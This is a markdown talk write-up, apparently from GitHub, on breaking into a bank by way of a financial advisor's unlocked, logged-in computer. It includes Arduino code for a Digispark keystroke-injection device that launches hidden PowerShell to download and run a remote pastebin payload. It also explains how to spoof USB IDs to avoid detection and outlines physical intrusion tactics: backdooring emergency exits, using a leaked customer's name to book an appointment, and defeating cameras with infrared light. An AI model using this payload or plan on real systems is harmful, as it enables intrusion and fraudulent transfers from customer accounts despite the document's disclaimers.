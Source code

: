 # Talk 1: Bank Security

## Description

This talk is about bank security, don't use it for illegal purpose ! I make this talk to help people to choose a secure bank and improve the bank security posture.

## Why

I visited my bank and met my financial advisor, when i did it i saw some cybersecurity problems, so i choose to talk about thoses problems.

## Talk

### Access to computer

1. I didn't pentest the web server, reverse the javascript in the web interface or reverse the mobile app, because it's a bank i suppose it's *secure*.
2. If i don't exploit a vulnerability on the server i should exploit a user vulnerability. I will not speak about fake bank application, phishing or social engineering to access to only one customer account.
3. The vulnerability is: my financial advisor ! Yes, my financial advisor does not comply with security policies and it's real problem ! He don't close the office door, don't lock the Windows session and keep the session to the bank application (with this application and this account we can performs bank transfer from customers bank account).
    - He leaves his office during interviews for several tens of seconds
    - He leaves his office between interviews for few minutes

### How to take the control of a computer with few seconds

 - Simply by plugging in a [rubber ducky](https://lab401.com/products/rubber-ducky) USB stick

> What is the rubber ducky USB stick ?
>> The Rubber Ducky USB stick is a type of USB device that is designed to emulate a keyboard and execute pre-programmed scripts when plugged into a computer. It looks like a regular USB flash drive, but its functionality is quite different.
>> When connected to a computer, the Rubber Ducky can send keystrokes at a very high speed, allowing it to perform tasks such as opening a command prompt, executing commands, or downloading malware without the user's knowledge. This makes it a popular tool for penetration testers and security researchers to demonstrate vulnerabilities in systems, as well as for malicious actors to exploit those vulnerabilities.
>> The device is often used in security training and awareness programs to illustrate the importance of physical security and the potential risks associated with USB devices.

#### How to build you own sneaky rubber ducky

 - Buy a [Digispark](https://www.amazon.fr/AZDelivery-Digispark-Kickstarter-d%C3%A9veloppement-compatible/dp/B01N7SGC1I/ref=sr_1_1_sspa?adgrpid=1364494866886671&dib=eyJ2IjoiMSJ9.a_zlnx8CDHiTiw5zWe84asWUApy6p6W48dBlv8WL41sYg6_Mzg4hhjx0PU_Y4SGOxyjB2a41tZSxNGzGm1G2SWxInTYzjo85b4P-cCSLxJu-fAd8X-VK8yI_0qyqdrEk4jvI_RNy9RW0I9tlibKRJoelIngWissoKjBtuo_tzbaPmcO2LY3Cnasl_s6NxZzXxAu6SlMygwqdZ6XG8YXrmf9k0ZxrKtqZp9U5LV6PEsnRX4ye6AA0TmveIwHy0_WjOKMv3fI1Lio-s4pW-psrw3LBO8VaHvEoyv9tjtgkQKs.00oPPHcg-eaUa4nHLYkowHAjejjkr0X5EoGj1OM31FQ&dib_tag=se&hvadid=85281187819663&hvbmt=be&hvdev=c&hvlocphy=126810&hvnetw=s&hvqmt=e&hvtargid=kwd-85281456177274%3Aloc-66&hydadcr=28259_1882664&keywords=digispark&msclkid=3a600951561e187ca1de6e227ee642d5&nsdOptOutParam=true&qid=1735600856&sr=8-1-spons&sp_csd=d2lkZ2V0TmFtZT1zcF9hdGY&psc=1).
 - Install the [Arduino IDE](https://www.arduino.cc/en/software).
 - Open the Arduino IDE, click on *File* -> *Preferences*, add `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` in the *Additional boards manager URLs:*, click *ok*.
 - Click on *Tools* -> *Board:* and click on *Boards manager...*, in the search bar write `Digistump` and click on the `Digistump AVR Boards by Digistump`.
 - Click on *Tools* -> *Programmer:* and select `Micronucleos` as bootloader (it's a very small and fast bootloader for Arduino compatible boards).

Now, you can put your code:

```c
#include <DigiKeyboard.h>

// https://github.com/digistump/DigistumpArduino/blob/111396ffe5163c3613b9315cbea1a3eabc9ba6dc/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h#L66

void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(21, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(80);
  DigiKeyboard.sendKeyStroke(80);

  DigiKeyboard.print("powershell -windowstyle hidden -Command ");
  DigiKeyboard.sendKeyStroke(79);
  DigiKeyboard.print("iex(iwr -Uri 'https://pastebin.com/raw/bcjhnYKG').Content");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {}
```

 - Click on the *Upload* button (a *right arrow* button)
 - The Arduino IDE will compile the code
 - When the code is compiled, it will wait 60 seconds a new plugged Digispark, so you may plug your Digispark on a USB port
 - The Arduino IDE will flash the firmware
 - The Digispark will play the code

Okay, so we have the Rubber Ducky, but we have some limitations: 512 bytes of RAM and we have a good payload for *qwerty* keyboard but not for others keyboards. For qwerty keyboard and azerty keyboard i have developed a little [python script](https://github.com/mauricelambert/DigisparkRubberDuckyExecuteCommand) to generate your own code to execute a command on the victim computer without the RAM limitation.

 - When a new keyboard is plugged, the vendor and the device ID are stored on the Windows computer, if you want to be undetectable you should modify the `%LOCALAPPDATA%\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\DigisparkKeyboard\usbconfig.h` file, line 232 to change the vendor ID: `USB_CFG_VENDOR_ID` ([web page](https://devicehunt.com/all-usb-vendors) to identify a vendor ID) and line 241 change the device ID: `USB_CFG_DEVICE_ID` ([web page](https://www.usbvendor.com/) to identify a device ID).

You can list your Vendor ID and your Product ID with the following powershell code:

```powershell
Get-WmiObject Win32_PnPEntity | Where-Object {$_.PNPClass -match "Mouse|Keyboard"} | ForEach-Object {
    $hwid = $_.HardwareID | Where-Object {$_ -match "(HID|USB)\\VID_.*"}
    if ($hwid) {
        $v_id = ($hwid -split '&')[0] -replace '(HID|USB)\\VID_',''
        $p_id = ($hwid -split '&')[1] -replace 'PID_',''
        [PSCustomObject]@{
            Name = $_.Name
            VendorID = $v_id
            ProductID = $p_id
        }
    }
}

Get-ChildItem -Path HKLM:\System\CurrentControlSet\Enum\USB\ | ForEach-Object {
    $v_id = ((($_ -split '&')[0] -replace '(HID|USB)\\VID_','') -split '\\')[-1]
    $p_id = ($_ -split '&')[1] -replace 'PID_',''
    [PSCustomObject]@{
        VendorID = $v_id
        ProductID = $p_id
    }
}
```

### Access to the office

The bank have 3 cameras on the same corridor, all people **should** use this corridor, but other ways to enter exists...

 - multiples windows (not very easy to use for a sneaky intrusion)
 - 2 emergency exits
     1. *Backdoor* the door during a legit visit
     2. Open the door from the outside with *some specific techniques*

### When

Take few days to know the financial advisor habits, you should identify good time for the intrusion.

### Others ways

 - Secretary have leaked the name of other customer, with this name you can use it to take a new appointment, use infrared light to hide your head on camera and exploit the vulnerability when financial advisor leave the office for few seconds during the interview.
 - When the financial advisor's screens are visible from the outside, it is possible to retrieve sensitives informations to performs the same attack.

## Conclusion

We have a vulnerability: the unlocked and unattended financial advisor computer with the authenticated financial advisor session. We have an access from the outdoor and we know the best time to do it... So, it's possible to pwn the bank...

Since few day, i have changed my bank, i think people should choice a secure bank and i hope this talk will help you to know which bank is secure.

> Don't use this talk for illegal purpose ! It's probably easy, in your dreams, to perform the attack described in this talk but in the real life is not and if you try you will go to jail. Keep in mind: if you have skills to perform this attack you will have a very good salary in a completely legal way so you won't even think of this idea.